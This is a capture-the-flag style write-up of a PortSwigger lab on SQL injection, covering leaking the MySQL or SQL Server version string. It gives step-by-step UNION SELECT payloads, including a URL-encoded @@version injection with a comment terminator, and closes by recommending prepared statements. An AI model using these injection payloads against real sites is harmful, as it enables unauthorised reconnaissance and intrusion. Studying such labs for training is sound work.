


# SQL injection attack – **querying database type & version (MySQL / Microsoft SQL Server)**

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (MySQL & Microsoft SQL Server),” we showed that an attacker can reveal the exact database version string by appending a crafted `UNION SELECT` clause to the product-filter request.
Because the application blindly concatenates user-supplied text into a `WHERE` clause, we joined the output of `@@version` to the normal product list and forced the database to disclose its own build details.

---

# Description

---

## Why This Matters to You

* **Precision exploitation:** Version strings map directly to published CVEs—attackers can cherry-pick exploits that match your exact patch level.
* **Evasion planning:** Knowing whether the back-end is MySQL Community, Percona, MariaDB, or Microsoft SQL Server Edition helps attackers anticipate which auditing, encryption, and logging features are present.
* **Recon → privilege escalation:** Version disclosure is a building block in multi-stage intrusions that end in ransomware or large-scale data theft.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                      | Intended SQL generated by the app                                             | What actually happens & why                                                                                                                                                           |
| - | --------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** – baseline request: `/filter?category=Gifts`                             | `SELECT * FROM someTable WHERE category='Gifts'`                               | Normal product list appears.                                                                                                                                                          |
| 2 | **Counted columns** with `ORDER BY` / `UNION NULL,NULL` – learned there are **2 columns**.          | —                                                                             | Valid `UNION` requires matching column count.                                                                                                                                         |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – confirmed both return string data. | —                                                                             | Shows where arbitrary text will surface.                                                                                                                                              |
| 4 | **Leaked version string** with `/filter?category=Gifts'/**%20**UNION%20SELECT%20'a',@@version%23` | `SELECT * FROM someTable WHERE category='Gifts' UNION SELECT 'a', @@version#'` | `#` starts a comment in MySQL; everything after is ignored. Page prints the full MySQL/MSSQL banner (e.g., `MySQL 8.0.36-log` or `Microsoft SQL Server 2019 ...`). Lab flags success. |

> Leaked version string

---

## Observable Output

| Test / Payload                | Visible result                     | What it proved                     |
| ----------------------------- | ---------------------------------- | ---------------------------------- |
| Baseline (`category=Gifts`)    | Normal product grid                | Application behaves as intended.   |
| `UNION 'a','b'`               | “a  b” displayed                   | Column count & data types verified |
| `UNION SELECT 'a',@@version#` | Database banner string on the page | **Version disclosure** confirmed   |

---

## Conclusion

With a single `UNION SELECT` payload and the `#` comment character, we extracted the complete MySQL/MSSQL version banner—priceless intelligence for an attacker. Replacing inline SQL with prepared statements and enforcing least-privilege roles will eliminate this exposure.
